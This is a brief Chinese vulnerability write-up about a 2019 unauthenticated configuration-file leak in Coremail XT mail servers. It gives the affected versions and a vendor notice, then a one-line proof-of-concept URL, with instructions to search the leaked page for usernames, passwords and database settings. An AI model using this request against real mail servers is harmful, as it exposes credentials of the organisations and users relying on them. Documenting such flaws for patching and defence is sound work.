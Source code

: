Coremail配置文件信息泄漏

一、漏洞简介

Coremail论客邮件系统开始研发于1999年，是中国第一套中文邮件系统，目前在中国大陆地区拥有超过10亿终端用户，是网易、中华网等运营商至今一直使用的邮件系统，也是政府、事业单位、科教、企业等机构广泛使用的邮件系统。
2019年6月，网上流传出Coremail论客邮件系统配置文件泄露的漏洞，该漏洞无需认证即可获取邮件系统的配置文件内容。
Coremail官网发布的漏洞公告：《关于Coremail邮件系统安全问题的情况说明》，http://www.coremail.cn/About/news_x/article_id/32641.htm

二、漏洞影响

Coremail XT 3.0.1至XT 5.0.9版本，XT 5.0.9a及以上版本已修复该漏洞

三、复现过程

POC
http://xx/mailsms/s?func=ADMIN:appState&dumpConfig=/
输入Poc访问漏洞页面
发现信息泄露页面内搜索user，password，database等关键字
